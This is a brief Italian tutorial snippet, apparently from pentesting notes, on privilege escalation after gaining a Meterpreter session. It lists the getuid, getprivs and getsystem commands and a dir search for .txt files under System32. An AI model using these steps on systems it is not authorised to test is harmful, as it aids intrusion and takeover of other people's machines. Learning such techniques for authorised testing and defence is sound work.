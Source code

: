 
## Privilege escalation
dopo aver ottenuto una sessione meterpeter, possiamo provare ad effettuare un privilege escalation con meterpeter
```bash
getuid     # mostra l'utente attuale
getprivs   # mostra i permessi dell'utente attuale
getsystem  # tenta di ottenere i massimi privilegi possibili
```
una volta dentro e con i privileggi massimi, possiamo muoverci dentro al sistema tranquillamente ad esempio cercando dei determinati file di configurazione .txt
```bash
dir C:\Windows\System32\*.txt /s /b
```
